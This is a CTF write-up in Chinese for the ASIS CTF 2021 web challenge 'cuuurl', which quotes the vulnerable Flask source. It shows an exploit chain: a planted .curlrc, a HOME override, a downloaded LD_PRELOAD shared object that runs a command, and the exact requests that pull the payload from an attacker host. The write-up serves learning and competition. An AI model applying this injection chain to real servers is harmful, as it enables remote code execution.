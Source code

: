 ```yaml
---
title: ASIS CTF 2021
date: 2021-12-30 10:58:00
category: Writeup
tags: 
	- ASIS CTF
---
```


## Web

### cuuurl

```
Do you know how to pronounce "curl"?
Download source code from here.
```

核心代码：

```python
@app.route('/')
def index(): #Poor coding skills :( can't even get process output properly
	url = request.args.get('url') or "http://localhost:8000/sayhi"
	env = request.args.get('env') or None
	outputFilename = request.args.get('file') or "myregrets.txt"
	outputFolder = f"./outputs/{hashlib.md5(request.remote_addr.encode()).hexdigest()}"
	result = ""

	if(env):
		env = env.split("=")
		env = {env[0]:env[1]}
	else:
		env = {}

	# print("env: ", env)

	master, slave = pty.openpty()
	os.set_blocking(master,False)
	try:
		subprocess.run(["/usr/bin/curl","--url",url],stdin=slave,stdout=slave,env=env,timeout=3,)
		result = os.read(master,0x4000)
	except Exception as e:
		os.close(slave)
		os.close(master)
		report = str(e)
		report += "\nurl: " + url + "\nenv: " + str(env) + "\noutputFilename: " + outputFilename
		return report,200,{'content-type':'text/plain;charset=utf-8'}

	os.close(slave)
	os.close(master)

	if(not os.path.exists(outputFolder)):
		os.mkdir(outputFolder)

	if("/" in outputFilename):
		outputFilename = secrets.token_urlsafe(0x10)

	with open(f"{outputFolder}/{outputFilename}","wb") as f:
		f.write(result)

	return redirect(f"/view?file={outputFilename}", code=302)
```

题目业务逻辑为：

-   使用curl命令访问任意url并写入内容到指定目录的任意命名的文件下，同时可以配置环境变量env
-   通过/view下传参文件名，访问文件内容

一开始尝试file://协议读取flag，发现没有权限，但是给了一个binary文件可以读取flag

```dockerfile
RUN chmod 400 /flag.txt
RUN chmod 111 /readflag
RUN chmod +s /readflag
```

因此思路是想办法执行根目录下readflag文件，得到flag

因为文件名可以任意写，且目录已知，通过curl官方文档 [curl - How To Use](https://curl.se/docs/manpage.html#CURLHOME) 可以得知curl会首先寻找HOME环境变量目录下的.curlrc文件作为配置文件，在.curlrc文件中可以任意添加curl的参数。而env环境变量可以通过请求指定，确保能够访问到.curlrc文件。

所以可以写个.so文件然后通过env变量LD_PRELOAD执行.so文件，进而执行readfile。.curlrc文件如下：

```
--output /tmp/test.so
```

test.c：

```c
#include <stdio.h>
#include <string.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    system("/readflag");
}
```

编译成.so文件：

```bash
gcc -fPIC -shared -o test.so test.c -nostartfiles
```

最后调整GET请求参数就可以拿下flag了~

```http
GET /?url=http://IP/curlrc.txt&env=&file=.curlrc HTTP/1.1
GET /?url=http://IP/test.so&env=HOME=/app/outputs/DIRECTORY&file= HTTP/1.1 // 发送这个请求的时候服务器会返回报错，但是实际上已经执行成功了。调试发现具体报错为：[Errno 11] Resource temporarily unavailable，但并没有找到很好的解释为什么会报这个错误
GET /?url=http://IP/&env=LD_PRELOAD=/tmp/test.so&file= HTTP/1.1
GET /view?file=myregrets.txt HTTP/1.1
```




